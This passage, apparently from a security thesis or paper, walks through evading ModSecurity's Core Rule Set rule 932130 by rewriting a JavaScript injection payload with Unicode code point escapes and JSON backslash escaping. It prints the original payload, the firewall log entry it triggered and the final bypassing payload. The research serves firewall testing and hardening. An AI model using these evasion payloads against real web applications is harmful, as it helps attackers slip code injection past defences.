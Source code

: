 \begin{lstlisting}[style=basicStyle, language=Python]
[]['constructor']['constructor']`${'var s = "secret";promp'+'t`s${s}`'}```
\end{lstlisting}

This payload caused another firewall rule to trigger:

\begin{lstlisting}[style=ruleStyle, language=XML, caption={Avoiding () blocked}, label={lst:avoiding () blocked}]
<payload>[]['constructor']['constructor']`${'var s = "secret";promp'+'t`s${s}`'}```</payload>

<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${s}"</MatchedData>
\end{lstlisting}

Evading rule \verb|932130| was possible by using Unicode code point escaping in JavaScript as proposed under Section~\ref{sec:jsescape}. The character sequence \verb|${s}| was replaced with \verb|\u{0024}{s}|:

\begin{lstlisting}[style=basicStyle, language=Python]
[]['constructor']['constructor']`${'var s = "secret";promp'+'t`s\u{0024}{s}`'}```
\end{lstlisting}

This made the payload bypass the ModSecurity firewall using \acrshort{crs} 4.1. During validating, the bypassing payload triggered an error when parsing the request body with \verb|JSON.parse()|. A similar case was mentioned under Section~\ref{sec:jsescapesingleiter}. As the Unicode code point escape is used within a string in this payload, percent encoding is not neccessary. Instead, the back-slash in the character sequence \verb|s\u{0024}| was escaped by prepending it with another back-slash. RFC4627: The application/json Media Type for JavaScript Object Notation (JSON) states that in JSON:
\begin{quote}
	there are two-character sequence escape representations of some popular characters.  So, for example, a string containing only a single reverse solidus character may be represented more compactly as \quotes{\textbackslash \textbackslash }. \cite{rfc4627}
\end{quote}

The resulting payload:

\begin{lstlisting}[style=basicStyle, language=Python]
[]['constructor']['constructor']`${'var s = "secret";promp'+'t`s\\u{0024}{s}`'}```
\end{lstlisting}

